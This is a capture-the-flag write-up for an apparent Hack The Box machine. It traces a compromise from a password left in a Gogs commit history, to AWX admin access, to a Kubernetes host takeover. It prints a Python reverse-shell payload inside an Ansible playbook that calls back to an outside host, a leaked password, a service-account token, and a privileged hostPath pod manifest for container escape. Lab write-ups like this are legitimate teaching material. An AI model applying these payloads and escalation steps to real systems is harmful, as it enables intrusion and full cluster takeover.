








# Operator

We have located Monkey Business operator blog where they are leaking personal informations. We would like you to break into their system and figure out a way to gain full control.

## Enum

We are given an IP so to start without we do a quick nmap scan

```
nmap -p- -oA fulltcp -vv 10.129.254.76

PORT      STATE SERVICE   REASON
22/tcp    open  ssh       syn-ack
80/tcp    open  http      syn-ack
3000/tcp  open  ppp       syn-ack
8443/tcp  open  https-alt syn-ack
10250/tcp open  unknown   syn-ack
30080/tcp open  unknown   syn-ack


```

A few interesting things open, port 8443 and 10250 both seem to relate to kubernetes APIs. 3000 was a instance of git, and 30080 an instance of AWX.


Note: I hadn't realised the enviroment would shutdown prior as soon as I submitted the flag, so most the screenshots are from burp render or a local instance of AWX.


## 80 - Webserver

The initial webserver didn't seem to have much going on, included a link to a dump of user details on git `http://operator.htb:3000/MonkeyBusiness/personal-uk-leak-2022`.  




## 3000 - Gogs GIT

An instance of gogs was running which let us register a new account.




After signing up and browsing around, we see a public repo for awx-operator, which is likely the service being hosted at `http://10.129.254.76:30080/#/`


When reviewing issues we see the following exchange.

```
Z1On: Shall I upload kubernetes configuration on this repo or it is better to just create a new repo?
b15h0p: Can you please create a repo called awx-k8s-config and upload it there? Please make sure to remove any credentials.
```

From this exchange we can guess a repo exists called `awx-k8s-config`
Sure enough we find the repo whening browse to `http://10.129.254.76:3000/MonkeyBusiness/awx-k8s-config`




Looking at revision history `http://10.129.254.76:3000/MonkeyBusiness/awx-k8s-config/commit/ddee38cef444421bce6ac66509377229c09659fc` we see that the AWX creds were initially commited before being removed.

```

name: monkey-business-admin-password
namespace: awx
metadata:
password: XRxpw33WnfY3MTgQ
```


## AWX - 30080

We can use this password from the repo to login as admin to awx `http://10.129.254.76:30080/`




After logging in we can a few defined projects and templates. 
I'm not overally faimiliar with AWX however it seems AWX/anisble allows you to define jobs to be run which automate tasks based on playbooks.

So our aim should be to see if we can get it to run malicous code we supply.

When reviewing projects we can the demo app, has been set up to pull from git. So we can create our own repo on git and see if we can create project using that.

Create a repo with the account we previously registered, i've used `first_playbook` as the name, then create a yml file containing our reverse shell command using `ansible.builtin.shell`.


```
git clone http://operator.htb:3000/test1/first_playbook.git 
cd first_playbook.yml
nano first_playbook.yml

git add -A

git commit -m "first commit"                                        
[master (root-commit) f842939] first commit                             
 1 file changed, 15 insertions(+)   
 create mode 100644 first_playbook.yml 

git push -u origin master                                                                                                              3 ⨯  
Enumerating objects: 3, done.       
Counting objects: 100% (3/3), done. 
Delta compression using up to 4 threads                                 
Compressing objects: 100% (2/2), done.                                  
Writing objects: 100% (3/3), 424 bytes | 424.00 KiB/s, done.            
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0                    
Username for 'http://operator.htb:3000': test1                          
Password for 'http://test1@operator.htb:3000':                          
To http://operator.htb:3000/test1/first_playbook.git                    
 * [new branch]      master -> master                                   
Branch 'master' set up to track remote branch 'master' from 'origin'.  
```

first_playbook.yml
```yaml
- name: Hello World Sample
  hosts: all
  tasks:
    - name: Hello Message
      ansible.builtin.shell: python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.48",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```




Now navigating back to AWX we want to setup a project to use the playbook from our repo.
We can do that by going to Resources > Projects > Add
Select source control type: Git
Input our source control URL `http://10.129.254.76:3000/test1/first_playbook`
Then save the project



Once you've saved, AWX will reach out to the repo and try to sync.


Now we want to create a job template to actually cause a playbook to run

Navigate to Job Template and add a new one, select the project you just created, as well as the playbook name which should by synced from your repo and click save.





Setup netcat listener for our shell and run

Now from the templates menu we can click launch template 

```
netcat -lvkp 80 

bash-4.4$ cat /var/run/secrets/kubernetes.io/serviceaccount
cat /var/run/secrets/kubernetes.io/serviceaccount
cat: /var/run/secrets/kubernetes.io/serviceaccount: No such file or directory

```

However I quickly realised I had no idea, where to go next. There didn't even seem to be kubernetes token in the normal spots.

After some enumeration I went back to the AWX instance, and found out why.


Navaging to instance groups > default > edit >check the box for customize pod specification

```
apiVersion: v1
kind: Pod
metadata:
  namespace: awx
spec:
  serviceAccountName: default
  automountServiceAccountToken: false
  containers:
    - image: quay.io/ansible/awx-ee:latest
      name: worker
      args:
        - ansible-runner
        - worker
        - '--private-data-dir=/runner'
      resources:
        requests:
          cpu: 250m
          memory: 100Mi

```

We see the following configuration, `automountServiceAccountToken: false`, changing this to `automountServiceAccountToken: true` and repeating the above steps to run the job a get a shell.

```
apiVersion: v1
kind: Pod
metadata:
  namespace: awx
spec:
  serviceAccountName: default
  automountServiceAccountToken: true
  containers:
    - image: 'quay.io/ansible/awx-ee:latest'
      name: worker
      args:
        - ansible-runner
        - worker
        - '--private-data-dir=/runner'
      resources:
        requests:
          cpu: 250m
          memory: 100Mi
```


We can now find the kubernetes token, howver am once again faced with an issue the service account is running as `automation-job-60-9snsw` and has very little in the way of permissions

Once again going back to AWX, and reviewing the configation a bit more. There is a line `serviceAccountName: default` well what if we change this to another account we know has more permissions.

In the repo for the k8 config we see an account defined `awx-operator-controller-manager` which has a number of permissions, this is likely the account that is used to spawn the individual pods. 



Once again update the pod specification

```
apiVersion: v1
kind: Pod
metadata:
  namespace: awx
spec:
  serviceAccountName: awx-operator-controller-manager
  automountServiceAccountToken: true
  containers:
    - image: 'quay.io/ansible/awx-ee:latest'
      name: worker
      securityContext:
        prvileged: true
      args:
        - ansible-runner
        - worker
        - '--private-data-dir=/runner'
      resources:
        requests:
          cpu: 250m
          memory: 100Mi
```

Rerun our job, and catch a shell.

We now find ourselves in a container running with a highly privileged service account, now at this stage we probably could of edited the pod specification to solve the challenge. I however didn't think about it till the end.


### Deploying a new container
So we can copy out the kuberenetes token from the awx automation pod, and setup our system to directly hit the exposed kubernetes API.

On automation container
```
cat /var/run/secrets/kubernetes.io/serviceaccount

eyJhbGciOiJSUzI1NiIsImtpZCI6IjNBVEp1R3M4U3Z6NzRhMUhaVDgteXlCYVlHQXZPTkplUWZTSlJQaU8tYmsifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiLCJrM3MiXSwiZXhwIjoxNjg5NTU1MDUzLCJpYXQiOjE2NTgwMTkwNTMsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJhd3giLCJwb2QiOnsibmFtZSI6ImF1dG9tYXRpb24tam9iLTYwLTlzbnN3IiwidWlkIjoiZWMxYWU2YWEtZTQ0Yi00NmE1LWE1ODItMDcyM2QxNDAwOTE4In0sInNlcnZpY2VhY2NvdW50Ijp7Im5hbWUiOiJhd3gtb3BlcmF0b3ItY29udHJvbGxlci1tYW5hZ2VyIiwidWlkIjoiMjdjNTI4NGMtZDM5Yi00NjlkLThjM2QtODdiNzg5MDVlNjg5In0sIndhcm5hZnRlciI6MTY1ODAyMjY2MH0sIm5iZiI6MTY1ODAxOTA1Mywic3ViIjoic3lzdGVtOnNlcnZpY2VhY2NvdW50OmF3eDphd3gtb3BlcmF0b3ItY29udHJvbGxlci1tYW5hZ2VyIn0.leAlXnsAs4MbSTju_NU3LIGPmm4c2qfO8psYEXIWgu-DuYMtQ_CkHqKfhqL2wV6wlYmyPLBVn3SE8gki89XicTOwWr6t8vyRP3kaKYyel_j6NZXiV_0nL_YHzZxtqxCppFEhndf2MSGf1En6g1aYHFdiXQAuD5sMR1BINzrnyCTNfrPLDbZO69XOl0QeovHoHsX6kLFgVjbABJIyKi6pQ8skXhx4180pJH4AUIsDwWSKKyBPwGKwlzpn2q0T-sygbCc4oL7JZWpzbjHPE0VZWZtT1OylOAtkrZdt9adkpc40u9hiODaAVYzpBFLmVet8noPOgJRg2zIjvS9bp4x-vg
```


On our system
```
# Set the token to a variable 
export TOKEN=$(cat token)     

# Set the API server we can reach
export APISERVER=https://10.129.254.76:8443                      

# alias our command so we don't need to keep typing it all or setup an actual kubeconfig file
alias k='/home/kali/Downloads/htbctfbiz/operator/kubectl --token=$TOKEN --server=$APISERVER --insecure-skip-tls-verify=true'    

```

Checking privileges
```
 k auth can-i --list                                                                                                                         
Resources                                       Non-Resource URLs                     Resource Names   Verbs
tokenreviews.authentication.k8s.io              []                                    []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]                                
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]                                 subjectaccessreviews.authorization.k8s.io       []                                    []               [create]                                                                                 [/.well-known/openid-configuration]   []               [get]                                    
                                                [/api/*]                              []               [get]                                    
                                                [/api]                                []               [get]                                    
                                                [/apis/*]                             []               [get]                                    
                                                [/apis]                               []               [get]                                    
                                                [/healthz]                            []               [get]
                                                [/healthz]                            []               [get]
                                                [/livez]                              []               [get]
                                                [/livez]                              []               [get]
                                                [/openapi/*]                          []               [get]
                                                [/openapi]                            []               [get]
                                                [/openid/v1/jwks]                     []               [get]
                                                [/readyz]                             []               [get]
                                                [/readyz]                             []               [get]
                                                [/version/]                           []               [get]
                                                [/version/]                           []               [get]
                                                [/version]                            []               [get]
                                                [/version]                            []               [get]

```

Since we have permission to create pods, let try to create a privileged one that does everything wrong like mount the host system.
I've essentially taken the yaml file from this awesome project by bishop fox `https://github.com/BishopFox/badPods/tree/main/manifests/everything-allowed`


I made a slight change by adding `runAsUser:0` so we'd be able to drop into the container as root. 


p1.yml
```
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: quay.io/ansible/awx-operator:latest
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
      runAsUser: 0
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /

```

Create the pod and drop into a shell
```
k create -f p1.yml -n awx
k exec -n awx -it  everything-allowed-exec-pod -- /bin/bash
```

Once in we can navigate to the host system under `/host` and find the flag

```
bash-4.4# cat /host/root/flag.txt   
```